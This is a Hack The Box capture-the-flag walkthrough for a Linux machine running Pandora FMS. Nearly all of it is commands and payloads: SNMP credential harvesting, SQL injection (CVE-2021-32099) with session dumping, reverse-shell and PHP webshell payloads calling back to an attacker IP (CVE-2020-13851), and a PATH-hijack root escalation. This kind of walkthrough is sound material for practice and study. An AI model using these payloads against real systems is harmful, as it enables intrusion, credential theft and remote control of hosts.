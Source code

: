 
## 📌 Box Info
- Platform: [HTB](HTB)
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

### 🧰 Recon Phase

**Nmap TCP Full Range Scan:**
```bash
nmap -p- --min-rate 10000 10.10.11.136
```

**Nmap Service Version Scan:**
```bash
nmap -p 22,80 -sCV 10.10.11.136
```

**UDP Scan for SNMP:**
```bash
sudo nmap -sU -top-ports=100 10.10.11.136
```

**Feroxbuster Directory Fuzzing:**
```bash
feroxbuster -u http://10.10.11.136
```

**[WFuzz](HTTP) Subdomain Discovery:**
```bash
wfuzz -u http://panda.htb -H "Host: FUZZ.panda.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  --hh 33560
```

**[SNMP](SNMP) Enumeration:**
```bash
snmpwalk -v 2c -c public 10.10.11.136 | tee snmp-full
snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 > snmp-full-bulk
```

**Custom Process Parsing (Python):**
```python
# snmp_processlist.py (dataclass and regex-based parser)
```

---

### 🚪 Initial Access

**Extracted from SNMP:**
```
Username: daniel
Password: HotelBabylon23
```

**[SSH](SSH) into Box:**
```bash
sshpass -p 'HotelBabylon23' ssh daniel@10.10.11.136
```

**Port Forward Pandora Console:**
```bash
ssh -L 9001:localhost:80 daniel@10.10.11.136
```

---

### 🩷 SQL Injection (CVE-2021-32099)

**Check SQLi Error:**
```
http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id='
```

**Union Test (3 Columns):**
```
?session_id=' union select 1,2,3-- -
```

**SQLMap Discovery:**
```bash
sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1'
```

**Dump Pandora Sessions:**
```bash
sqlmap -D pandora -T tsessions_php --dump --where "data<>''"
```

**Replay Session (Replace Cookie):**
```http
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq
```

---

### 🔨 Remote Code Execution (RCE #1: CVE-2020-13851)

**Exploit via Ajax:**
```http
POST /pandora_console/ajax.php
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq

page=include/ajax/events&perform_event_response=10000000&target=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&response_id=1
```

**Listener:**
```bash
nc -nvlp 443
```

**Shell Upgrade:**
```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
```

---

### 🔨 Remote Code Execution (RCE #2: Admin Upload via SQLi)

**Crafted Payload for Admin Session:**
```url
http://127.0.0.1:9001/pandora_console/include/chart_generator.php?session_id=' union select '1','2','id_usuario|s:5:"admin";' -- a
```

**Upload Webshell (PHP):**
```php
<?php system($_REQUEST['cmd']); ?>
```

**Execute Reverse Shell via Webshell:**
```bash
curl 'http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"'
```

---

### 💼 Privilege Escalation to root

**SUID Binary Discovered:**
```bash
find / -perm -4000 -ls 2>/dev/null | grep pandora_backup
```

**Drop SSH Key to Ensure Clean Env:**
```bash
echo "<pub_key>" > /home/matt/.ssh/authorized_keys
```

**Confirm pandora_backup Vulnerability:**
```bash
ltrace pandora_backup
```

**Hijack tar via PATH:**
```bash
cd /dev/shm
export PATH=/dev/shm:$PATH

cat > tar << 'EOF'
#!/bin/bash
bash
EOF

chmod +x tar
pandora_backup
```

**Grab root flag:**
```bash
cat /root/root.txt
```

---

### 🕵️‍♂️ Beyond Root (Apache mpm-itk Sandbox Bypass)

- Apache site runs as `matt` via `AssignUserID` (from `mpm-itk` module).
- This breaks all SUID functionality under Apache execution tree.
- Switching to SSH avoids `mpm-itk` sandbox, allowing SUID execution.

**References:**
- https://mpm-itk.sesse.net/
- https://www.cpanel.net/support/
- https://serverfault.com/questions/1013897/setuid-scripts-fail-under-apache-mpm-itk

---

**Status:**
- User: `daniel` via SNMP creds
- Lateral: `matt` via Pandora FMS SQLi
- Root: `pandora_backup` path hijack

Great practice for SNMP enumeration, SQLi chaining, Apache mod understanding, and privilege escalation via PATH hijack ✨